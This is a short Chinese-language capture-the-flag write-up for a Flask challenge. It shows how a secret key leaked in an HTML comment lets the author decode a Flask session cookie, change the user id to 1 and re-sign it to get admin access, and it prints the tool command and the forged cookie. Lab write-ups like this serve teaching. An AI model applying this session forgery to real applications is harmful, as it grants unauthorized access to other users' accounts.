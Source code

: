 ## [NSSRound#13 Basic]flask?jwt?

> Flask
>
> 第一次遇到这种题，构造session

1. 进入页面发现需要登录，尝试一下登录不进去，我们就注册一个账号，登录进入另一个界面

   ![image-20240821153816950](C:/Users/lenovo/Desktop/%E7%B4%A0%E6%9D%90%E5%BA%93/%E7%B4%A0%E6%9D%90/image-20240821153816950.png)

   点击拿flag，得到我不是admin的提示

2. 分析一下cookie内容，结合题目发现是session构造

3. 查了资料，下载脚本：https://github.com/noraj/flask-session-cookie-manager

4. 在忘记密码页面,得到：secretkey

```
<!-- secretkey: th3f1askisfunny -->
```

5. 解码

```
python flask_session_cookie_manager3.py decode -s “th3f1askisfunny” -c “.eJwljjkOwzAMwP6iuYPs6LDzmUCyJbRr0kxF_14DBVcS4AeOPON6wv4-73jA8Zqwg1NULhlNhAubKBtLOCc6U0fCqQONCZe3bVRJk2YzbZUGzRoi5L2kF-IM7Gk0o2uiVhZNaSV0uBfpNGnTYbZ6xtIXiSgT1sh9xfm_qfD9AV9VLiU.ZsWZAw.serOtgnY1BhZSNuOx3aYEYkg34Y”

#结果
{'_fresh': True, '_id': 'b4e251fe866515a675a56eb5f0b549040d7c0a5404e2334247f4d8a7824c4d2e664b91fb145fe09fa4de97f072567f681e7cbb1694d437caa7f45019191f006d', '_user_id': '2'}
```

6. 编码

```
#待编码内容
{'_fresh': True, '_id': 'b4e251fe866515a675a56eb5f0b549040d7c0a5404e2334247f4d8a7824c4d2e664b91fb145fe09fa4de97f072567f681e7cbb1694d437caa7f45019191f006d', '_user_id': '1'}

#编码结果：
.eJwljjkOwzAMwP6iuYPk6LDzmUC2JbRr0kxF_14DBVcS4AeOPON6wv4-73jA8ZqwQ-coQhlVVUhcTVw0uiR24YaM0wa6MC5v27iwJc_qVgsPniVUuTfKTiwZ2NJ5RrNEK6KWWils9E7aePJmw331gtQWiagT1sh9xfm_Ifj-AF9SLiQ.ZsWaSQ.YVMvNUkro2QI49RcVyr_VOoQIdw
```

提交到cookie，点击按钮拿到flag


